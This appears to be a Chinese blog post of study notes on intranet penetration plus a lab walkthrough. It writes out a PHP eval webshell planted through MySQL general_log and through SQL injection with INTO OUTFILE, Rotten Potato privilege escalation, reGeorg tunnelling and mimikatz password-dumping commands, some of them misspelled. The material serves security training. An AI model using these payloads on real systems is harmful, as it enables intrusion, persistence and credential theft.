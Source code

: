 # 原创
：  内网渗透（一）

# 内网渗透（一）

### 预备知识

##### 什么是内网渗透？

在我们拿下目标服务器后，对其局域网进行攻击，比如提权、权限维持、数据提取

##### 如何绕过1290安全性报错？

mysql日志法（root权限）

1.show variables like ‘%general%’; #查看配置<br/> 2.set global general_log = on; #开启general log模式<br/> 3.set global general_log_file = ‘/var/www/html/1.php’; #设置日志目录为shell地址<br/> 4.select ‘&lt;?php eval($_REQUEST[8]);?&gt;’ #写入shell

##### 烂土豆的功能

能够自动拿取系统的最高权限，并且对windows全版本通杀，如果系统版本不兼容就可以指定系统 烂土豆.exe -p “whoami” -c{}

##### Regeorg功能

考虑一种场景，有两个主机A和B。其中主机A上运行了Web服务，且端口映射到公网，可以被网布人员访问，主机B是在网访问不到的。攻击者通过楼哦东在主机A上传了webshell，但同时又处于某些限制不能得到A的主机权限，这个时候也无法通过常规方法直接登录到主机B获取权限。<br/> 这个时候reGeorg在这个时候又了很大的作用，攻击者已经有了主机A的webshell权限，而主机A能够同主机B通信，那么在主机A上安装reGeorg工具，使得攻击者发出的请求能够通过A转达到B，而B的响应能够转达到攻击者。

连接语法：<br/> py -2 reGeorgSocksProxy.py -u 文件地址 -l 127.0.0.1 -p 端口

##### 猕猴桃的作用

猕猴桃提权，并将密码通过纯明文的形式显示出来

碰撞的语法

privilege::debug 提神权限<br/> log<br/> sekurlsa::logopasswords 抓取密码

##### proxifier的作用

能够添加代理服务器，设置代理规则，只对某个进程进行代理，可以防止网络被影响。

### 靶场实战

一、判断是否存在sql注入<br/> 输入：id=1 and 1=2<br/> 结果：

二、判断字段数<br/> 输入：id=1 order by 3<br/> 结果：字段数为2

三、判断显错位<br/> 输入：id=1 and 1=2 union select 1,2<br/> 结果：显错位在第二位

四、写入一句话木马<br/> 输入：id=1 and 1=2 union select 1,’&lt;?php eval($_REQUEST[8])?&gt;’ into outfile ‘C:\phpStudy\WWW\1.php’（文件路径从网页报错获取）<br/> 结果：写入木马文件1.php

五、菜刀连接并查看自己的权限<br/> 输入：whoami<br/> 结果：为test
